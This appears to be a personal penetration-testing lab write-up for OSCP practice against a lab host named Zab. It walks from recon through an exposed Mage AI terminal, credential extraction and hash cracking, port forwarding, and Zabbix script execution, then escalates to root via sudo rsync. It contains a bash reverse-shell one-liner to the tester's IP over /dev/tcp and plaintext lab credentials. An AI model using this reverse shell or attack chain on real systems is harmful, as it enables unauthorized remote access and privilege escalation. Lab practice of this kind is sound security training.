

**Start 10:48 20-05-2025**

---
```
Scope:
192.168.129.210
```

# Objectives

>[!summary]
>This lab challenges you to exploit misconfigurations in Mage AI and Zabbix to escalate privileges to root. Gaining initial access through Mage AI, you'll extract database credentials and leverage port forwarding to access the restricted Zabbix UI. By abusing Zabbix’s script execution feature, you'll execute arbitrary commands, elevate privileges to zabbix, and ultimately escalate to root using rsync misconfigurations.

This lab simulates an attack scenario where you exploit misconfigurations in Mage AI and Zabbix to escalate privileges to root. After gaining initial access through Mage AI, you'll extract database credentials and use port forwarding to bypass access restrictions to the Zabbix UI. By abusing Zabbix’s script execution feature, you'll execute arbitrary commands, gain a shell as zabbix, and escalate to root using a sudo misconfiguration with rsync.

## Attack Zab

- Gain access to Mage AI terminal as www-data.
- Extract MySQL database credentials and retrieve the Zabbix admin password.
- Use chisel to forward ports and access the Zabbix UI.
- Exploit Zabbix script execution to gain a shell as zabbix.
- Escalate to root by abusing sudo rsync.

# Recon

## Nmap

```bash
sudo nmap -sC -sV zab -sT -vvvv -p- -Pn -T5 --min-rate=5000

PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    syn-ack Apache httpd 2.4.52 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
6789/tcp open  http    syn-ack Tornado httpd 6.3.3
| http-methods: 
|_  Supported Methods: GET
|_http-server-header: TornadoServer/6.3.3
|_http-title: Mage
|_http-favicon: Unknown favicon MD5: 14B7DB3EB16DEF7F593F14D8621E9BBB
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 6789/TCP - HTTP

I went to this webpage and found the following:


>[!note]
>Funnily enough I was able to find `local.txt` in here lol:
>

This is because there's already a terminal running here:


### local.txt


# Foothold
## Shell as www-data

I was able to ping myself so I figured I could get easy RCE:


Once I get my reverse shell I can now start looking for ways to move laterally.


Inside the `/etc/passwd` file was the service user `zabbix` mentioned.

After doing some more digging I found something interesting:


Inside this file was the following:


Hell yeah!

```
zabbix
breadandbuttereater121
```

## MySQL

We access it using the found creds:


We go ahead and try to crack the password using `hashcat`

## Hashcat


```
Zabbix
dinosaur
```

However we cannot access the *zabbix* user via `ssh`:


I check what ports **zabbix** usually runs under:


I yet again check using `ss`:


Seems like the ports are only open internally, meaning we'll have to *Port Forward*.

## Port Forwarding


Now we need to set up a new route to `240.0.0.1` on our `kali`:


Now that it is set up we can access it:


Using the found `Admin - dinosaur` creds we get easy access:


I started enumerating the website and how to access any spot to get RCE from:


>[!note]
>I found the above on a forum post


We head over to the top right **Create script**:


We click save and then head on over to **Monitoring -> Hosts**:


Here we hover over the **Zabbix server** and find our script:


Click on it and it should execute:


>[!fail]
>It kept hanging instead so I `base64` encoded it:


Nothing?

Let's try a different payload.

```bash
echo ‘bash -i >& /dev/tcp/192.168.45.179/443 0>&1’ | base64
```




>[!bug]
>I had to restart the fucking box and it worked from the get go:


# Privilege Escalation
## Enumeration

Once we gain access we go right back to enum:


Well I guess that's our PE vector.

### Rsync GTFObins


And we're *root* just like that.

### proof.txt


>[!summary]
>Very easy box, could've saved a lot of time if the connection didn't fuck me up as ALWAYS!!!

---

**Finished 13:03 20-05-2025**

[^Links]: [[OSCP Prep]]

#Ligolo 